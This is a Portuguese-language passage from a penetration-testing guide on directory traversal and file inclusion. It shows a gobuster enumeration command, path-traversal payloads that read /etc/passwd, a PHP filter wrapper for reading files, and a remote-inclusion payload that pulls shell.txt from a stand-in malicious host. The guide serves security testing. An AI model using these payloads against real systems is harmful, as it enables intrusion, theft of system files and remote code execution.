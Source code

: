 #### **I. Dirb ou Gobuster**
- **Descrição:** Ferramentas para brute force de diretórios e arquivos.
- **Como usar:**
  - Realize enumeração de diretórios e arquivos sensíveis.
    ```bash
    gobuster dir -u http://target.com -w /path/to/wordlist.txt
    ```

#### **J. Logger e Syslog Analysis**
- **Descrição:** Monitore logs do servidor para observar requisições suspeitas.
- **Como usar:**
  - Analise logs para detectar erros que indiquem vazamentos de arquivos.

---

### **3. Métodos de Teste**

#### **A. Identificação de Parâmetros Vulneráveis**
- Procure parâmetros que indiquem controle de diretórios ou arquivos (e.g., `file=`, `path=`, `template=`).
- Use ferramentas como Burp Suite e OWASP ZAP para identificar endpoints relevantes.

#### **B. Teste de Directory Traversal**
1. **Injeção de Payloads Simples:**
   - Tente acessar arquivos como `/etc/passwd` ou `boot.ini`:
     ```plaintext
     ../../../../etc/passwd
     ../../../../boot.ini
     ```
2. **Variações Codificadas:**
   - Teste versões URL-encoded e double-encoded:
     ```plaintext
     %2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
     ```

#### **C. Teste de File Inclusion**
1. **Local File Inclusion (LFI):**
   - Insira arquivos do sistema local:
     ```plaintext
     /var/log/apache2/access.log
     ```
   - Utilize **PHP wrappers**:
     ```plaintext
     php://filter/convert.base64-encode/resource=../../../../etc/passwd
     ```

2. **Remote File Inclusion (RFI):**
   - Tente incluir arquivos hospedados externamente:
     ```plaintext
     http://malicious-site.com/shell.txt
     ```
